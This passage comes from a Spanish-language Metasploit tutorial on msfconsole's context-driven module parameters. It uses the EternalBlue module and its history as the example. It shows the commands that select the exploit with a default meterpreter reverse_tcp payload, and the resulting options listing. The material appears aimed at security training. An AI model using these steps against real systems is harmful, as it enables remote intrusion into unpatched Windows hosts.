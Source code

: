 Podemos usar el comando `history` para ver el historial de los comandos ejecutados en la consola.

Una característica importante de msfconsole es que integra autocompletado por tabulación, lo que nos será muy útil más adelante cuando usemos comandos o módulos de Metasploit.

Msfconsole es dirigida por contexto; esto significa que al menos que estén definidos como variables globales, todos los parámetros del módulo se perderán si cambias de módulo. En el ejemplo de abajo hemos usado el exxploit `ms17_010_eternalblue`, y configurado los parámetros como `RHOSTS`. Si cambiásemos a otro módulo, como port scanner, necesitaríamos configurar `RHOSTS` de nuevo. Vamos a ver el ejemplo:

Una vez que escribimos el comando `use exploit/windows/smb/ms17_010_eternalblue`, veremos que la linea de comandos cambia de `msf6` a `msf6 exploit(windows/smb/ms17_010_eternalblue)`. El exploit EternalBlue fue diseñado por la Agencia Nacional de Seguridad de los EE.UU. (N.S.A.) para una vulnerabilidad que afectaba a los servidores SMBv1 en numerosos sistemas Windows. El protocolo SMB es comunmente usado en las redes Windows para compartir archivos y mandar archivos a impresoras. EternalBlue fue filtrado por la organización cibercriminal "Shadow Brokers" en Abril de 2017. En mayo de ese mismo año, esta vulnerabilidad fue explotada a nivel mundial por el ataque de ransomware "WannaCry".

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue 
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

El módulo puede ser seleccionado con el comando `use` seguido del número al comienzo de la linea de búsqueda.

Mientras que el prompt ha cambiado, notarás que puedes seguir ejecutando comandos como los mencionados anteriormente. Esto significa que no entramos en un directorio como normalmente lo haríamos. La linea nos dirá que tenemos un contexto en el que debemos trabajar. Puedes ver esto escribiendo `show options`.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.220.191    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


```